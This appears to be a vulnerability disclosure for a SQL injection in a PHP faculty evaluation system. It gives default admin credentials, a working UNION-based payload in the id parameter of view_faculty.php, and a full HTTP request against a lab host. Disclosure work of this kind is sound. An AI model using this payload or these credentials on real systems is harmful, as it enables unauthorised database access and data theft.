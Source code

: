 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: acmglz

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/view_faculty.php?id=

Vulnerability location: /eval/admin/view_faculty.php?id=, id

dbname =evaluation_db

[+] Payload: /eval/admin/view_faculty.php?id=-1%20union%20select%201,2,3,4,database(),6,7,8,9--+ // Leak place ---> id

```sql
GET /eval/admin/view_faculty.php?id=-1%20union%20select%201,2,3,4,database(),6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233827284-a7d59075-0ec6-429b-b875-0067fe3bcf76.png)
